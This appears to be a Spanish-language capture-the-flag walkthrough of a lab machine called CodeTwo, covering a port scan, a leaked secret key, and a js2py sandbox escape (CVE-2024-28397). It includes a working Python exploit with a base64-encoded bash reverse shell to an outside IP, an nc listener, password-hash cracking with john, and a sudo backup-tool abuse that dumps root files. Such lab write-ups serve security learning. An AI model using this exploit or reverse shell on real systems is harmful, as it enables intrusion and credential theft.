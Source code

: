 

```bash
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-27 08:14 CEST
NSE: Loaded 157 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 08:14
Completed NSE at 08:14, 0.00s elapsed
Initiating NSE at 08:14
Completed NSE at 08:14, 0.00s elapsed
Initiating NSE at 08:14
Completed NSE at 08:14, 0.00s elapsed
Initiating Parallel DNS resolution of 1 host. at 08:14
Completed Parallel DNS resolution of 1 host. at 08:14, 0.02s elapsed
Initiating SYN Stealth Scan at 08:14
Scanning 10.10.11.82 [1000 ports]
Discovered open port 22/tcp on 10.10.11.82
Discovered open port 8000/tcp on 10.10.11.82
Completed SYN Stealth Scan at 08:14, 0.45s elapsed (1000 total ports)
Initiating Service scan at 08:14
Scanning 2 services on 10.10.11.82
Completed Service scan at 08:14, 6.55s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.11.82.
Initiating NSE at 08:14
Completed NSE at 08:14, 3.33s elapsed
Initiating NSE at 08:14
Completed NSE at 08:14, 0.47s elapsed
Initiating NSE at 08:14
Completed NSE at 08:14, 0.00s elapsed
Nmap scan report for 10.10.11.82
Host is up (0.11s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 a0:47:b4:0c:69:67:93:3a:f9:b4:5d:b3:2f:bc:9e:23 (RSA)
|   256 7d:44:3f:f1:b1:e2:bb:3d:91:d5:da:58:0f:51:e5:ad (ECDSA)
|_  256 f1:6b:1d:36:18:06:7a:05:3f:07:57:e1:ef:86:b4:85 (ED25519)
8000/tcp open  http    Gunicorn 20.0.4
|_http-server-header: gunicorn/20.0.4
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET
|_http-title: Welcome to CodeTwo
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
Initiating NSE at 08:14
Completed NSE at 08:14, 0.00s elapsed
Initiating NSE at 08:14
Completed NSE at 08:14, 0.00s elapsed
Initiating NSE at 08:14
Completed NSE at 08:14, 0.00s elapsed
Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.13 seconds
           Raw packets sent: 1023 (45.012KB) | Rcvd: 1023 (40.928KB)


```

Vemos que tiene abierto el puerto
+ 22 SSH
+ 8000 gunicorn/20.0.4


si le damos a download app, podemos ver un archivo donde esta la secret key de la app
![[Pasted image 20250827081743.png]]

S3cr3tK3yC0d3Tw0


vemos que si nos logeamos tenemos una ejecucion de codigo por js

![[Pasted image 20250827082624.png]]

podemos ver que en runcode usa js2py, que tiene una vulnerabilidad para bypass del import
CVE-2024-28397

![[Pasted image 20250827084300.png]]

con este conocimiento, podemos hacer el siguiente exploit y meterle un payload

```python
import requests  
import json  
  
url = 'http://10.10.11.82:8000/run_code'  
  
js_code = """  
let cmd = "printf 'KGJhc2ggPiYgL2Rldi90Y3AvMTAuMTAuMTQuNDkvNDQ0NCAwPiYxKSAm' |base64 -d|bash";
let a = Object.getOwnPropertyNames({}).__class__.__base__.__getattribute__;  
let obj = a(a(a,"__class__"), "__base__");  
function findpopen(o) {  
    let result;    for(let i in o.__subclasses__()) {        let item = o.__subclasses__()[i];        if(item.__module__ == "subprocess" && item.__name__ == "Popen") {            return item;        }        if(item.__name__ != "type" && (result = findpopen(item))) {            return result;        }    }}  
let result = findpopen(obj)(cmd, -1, null, -1, -1, -1, null, null, true).communicate();  
console.log(result);  
result;  
"""  
  
payload = {"code": js_code}  
  
headers = {"Content-Type": "application/json"}  
  
r = requests.post(url, data=json.dumps(payload), headers=headers)  
print("esta es la respuesta:" + r.text)

```

el payload:

```bash
(bash >& /dev/tcp/10.10.14.49/4444 0>&1) &
```

hay que codificarlo en base64.

despues ejecutamos, 

```
nc -nlvp 4444
```

![[Pasted image 20250827094013.png]]

vemos que hay una base de datos


![[Pasted image 20250827101628.png]]

vamos a ver que hay dentro:

vemos que hay usuarios y hashes, vamos a romperlos
![[Pasted image 20250827101658.png]]

con john

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hashes --format=Raw-MD5
```


![[Pasted image 20250827101734.png]]

vemos que la pass de marco es sweetangelbabylove asi que nos metemos en su cuenta.

![[Pasted image 20250827101834.png]]


## Privesc

vemos que con sudo -l nos sale esto

![[Pasted image 20250827101950.png]]

este es un programa de backups

![[Pasted image 20250827102932.png]]

vemos que esta haciendo un backup de /home/app/app.

vemos que la herramienta tiene una opcion de "DUMP", con la que podemos dumpear y mostrar por pantalla cualquier archivo al que se haya hecho un backup

la idea es hacer un backup de /root ya que lo podemos ejecutar como sudo, y despues dumpear el root.txt

para eso duplicamos el archivo de configuracion y cambiamos el path a /root
![[Pasted image 20250827103145.png]]

ahora ejecutamos

```bash
sudo /usr/local/bin/npbackup-cli -c cp.config --b -f
```


una vez realizado, vamos a ver el archivo

```bash
sudo /usr/local/bin/npbackup-cli -c cp.config -f --dump /root/r
c0eee578bafb0c0c46e2e7eef1f5796f
```


![[Pasted image 20250827103504.png]]

